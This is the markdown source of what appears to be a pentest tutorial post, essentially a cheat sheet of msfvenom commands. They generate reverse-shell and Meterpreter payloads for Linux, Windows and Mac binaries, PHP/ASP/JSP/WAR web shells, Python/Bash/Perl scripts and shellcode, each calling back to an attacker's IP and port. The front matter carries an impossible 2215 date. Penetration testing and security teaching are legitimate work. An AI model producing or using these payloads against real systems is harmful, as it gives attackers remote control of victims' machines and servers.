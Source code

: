 +++
title = "Generating Payloads with MsfVenom"
description = "How to generate Payloads"
tags = [ "Payload", "Generating", "Pentest", "MsfVenom" ]
date = "2215-11-10"
location = "127.0.0.1"
categories = [
  "Pentest",
  "Tutorials",
  "Metasploit",
  "MsfVenom"
]
slug = "Payload-Gen"
type = "post"
+++

### LIST PAYLOADS


![MSFVENLP](/img/Metasploit/MsfVenom/MSFLP.png)


### BINARIES

#### Linux ####

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```


#### Windows ####

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```


#### Mac ####

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```


### WEB PAYLOADS

#### PHP ####

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```


#### ASP ####

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```


#### JSP ####

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```


#### WAR #### 

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```


### SCRIPTING PAYLOADS

#### Python ####

```
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```


#### Bash ####

```
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```


#### Perl ####

```
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```


### SHELLCODE -

For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

![MSFLPHF](/img/Metasploit/MsfVenom/MSFLPHF.png)

#### Linux Based Shellcode ####

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```


#### Windows Based Shellcode ####

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```


#### Mac Based Shellcode ####

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```



